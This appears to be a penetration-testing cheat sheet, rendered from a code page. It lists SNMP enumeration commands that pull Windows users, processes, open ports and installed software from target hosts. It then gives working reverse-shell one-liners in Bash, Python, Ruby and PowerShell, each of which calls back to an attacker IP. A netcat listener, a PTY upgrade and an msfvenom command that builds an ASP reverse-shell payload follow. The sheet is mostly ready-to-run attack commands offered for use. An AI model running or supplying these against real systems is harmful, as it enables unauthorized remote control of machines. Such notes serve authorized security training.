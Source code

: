 `snmpwalk -c public -v1 10.11.1.14 1.3.6.1.4.1.77.1.2.25` enumerate Windows users.

`snmpwalk -c public -v1 10.11.1.73 1.3.6.1.2.1.25.4.2.1.2` enumerate Windows running processes.

`snmpwalk -c public -v1 10.11.1.14 1.3.6.1.2.1.6.13.1.3` enumerate open TCP ports.

`snmpwalk -c public -v1 10.11.1.50 1.3.6.1.2.1.25.6.3.1.2` enumerate installed software.

## Reverse Shells

### Bash
`/bin/bash -i >& /dev/tcp/192.168.119.137/1337 0>&1`


### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

### Ruby

```
ruby -rsocket -e'f=TCPSocket.open("10.10.14.3",8081).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


### PowerShell
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.137',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Listeners

#### Netat
`nc -lvp 4444` listen (catch) reverse shell with Netcat on port 4444

### Span TTY Shell
`python -c 'import pty; pty.spawn("/bin/bash")'` or `python3 -c 'import pty; pty.spawn("/bin/bash")'`


### MSFVenom
#### ASP
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.137 LPORT=4444 -f asp > shell.asp`
